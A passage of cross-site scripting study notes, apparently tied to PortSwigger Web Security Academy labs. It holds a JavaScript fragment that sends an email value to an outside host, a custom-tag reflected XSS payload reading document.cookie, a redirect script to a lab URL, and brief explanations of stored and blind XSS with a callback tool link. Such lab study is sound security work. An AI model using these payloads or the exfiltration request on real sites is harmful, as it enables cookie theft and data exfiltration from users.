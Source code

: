 ```
request.open("GET","http://" + email + "-musyoka-" + my_address, false); // with second parameter as 'true'(async) also works
request.send();
</script>
```





### Reflected XSS into HTML context with all tags blocked except custom ones
Payload: <custom-tag id=x onfocus=alert(document.cookie) tabindex=1>#x

<script>
location = 'https://0af9006b0401a5dc827b5bd100ca00a8.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>































## Stored XSS
Is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: post comments stored in a database.


### Blind XSS
Is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


Tool: <https://github.com/mandatoryprogrammer/xsshunter-express>

